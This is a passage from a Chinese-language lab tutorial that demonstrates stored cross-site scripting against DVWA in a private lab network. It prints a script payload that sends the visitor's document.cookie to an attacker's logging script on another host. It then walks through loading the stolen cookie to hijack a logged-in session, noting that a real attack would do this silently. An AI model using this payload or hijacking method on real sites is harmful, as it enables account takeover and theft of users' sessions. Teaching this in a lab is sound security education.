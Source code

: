 ![config-html](https://doc.shiyanlou.com/document-uid113508labid2409timestamp1482231061803.png/wm)

然后我们输入这样的信息：

```
<SCRIPT>document.location='http://192.168.122.101/cgi-bin/logit.pl?'+document.cookie</SCRIPT>
```

![insert-script](https://doc.shiyanlou.com/document-uid113508labid2409timestamp1482231072162.png/wm)

然后我们点击提交，我们会看到页面跳转到了我们接收 cookie 的地方：

![show-cookie](https://doc.shiyanlou.com/document-uid113508labid2409timestamp1482231085159.png/wm)

然后我们关闭浏览器，重新打开 Firefox。

安装 alt 键，选择工具，选择我们刚刚安装的插件 cookie_manager:

![open-manager](https://doc.shiyanlou.com/document-uid113508labid2409timestamp1482231103410.png/wm)

再次打开我们的 cookie_manager 会发现我们的 cookie 信息是空的，此时我们再打开 `http://192.168.122.102/dvwa` 发现会让我们登陆：

![reopen-dvwa](https://doc.shiyanlou.com/document-uid113508labid2409timestamp1482231123037.png/wm)

此时我们再开 cookies_manager 会有两条 cookie 信息，我们清除该信息：

![delet-cookie](https://doc.shiyanlou.com/document-uid113508labid2409timestamp1482231140321.png/wm)

然后添加我们刚刚的 cookie 信息，你可能会说刚刚忘了保存页面上的 cookie 信息了，没事我们的 logit.pl 脚本已经将获得的信息保存在了 `/var/www/logdir` 中了：

![view-log](https://doc.shiyanlou.com/document-uid113508labid2409timestamp1482231154426.png/wm)

通过 `less log.txt` 我们可以看到刚刚的 cookie 信息：

![show-log-cookie](https://doc.shiyanlou.com/document-uid113508labid2409timestamp1482231165330.png/wm)

然后导入我们的刚刚备份的内容：

![creat-cookie-session](https://doc.shiyanlou.com/document-uid113508labid2409timestamp1482231174636.png/wm)

![creat-cookie-security](https://doc.shiyanlou.com/document-uid113508labid2409timestamp1482231189331.png/wm)

获取到多少就需要录入多少，若是实在不清楚路径，可以在清除之间查看每个值所对应的路径。

此时我们在 URL 栏中输入 `http://192.168.122.102/dvwa/index.php` 我们会发现，我们居然不用登陆进入到了首页，并且我们通过 Security Level 是 low 可以看出是我们刚刚登陆的用户。

![proof-mi](https://doc.shiyanlou.com/document-uid113508labid2409timestamp1482231198368.png/wm)

这就是中间人攻击，在不用输入用户名、密码的情况下悄悄的登陆，本实验中跳转到获取信息的页面是为了展示，真正在攻击的时候不会跳转，要在不知不觉中偷走你的 cookie 信息。

## 9. 总结

本节实验中我们学习了以下内容，任何不清楚的地方欢迎到[实验楼问答](https://www.shiyanlou.com/questions)与我们交流：
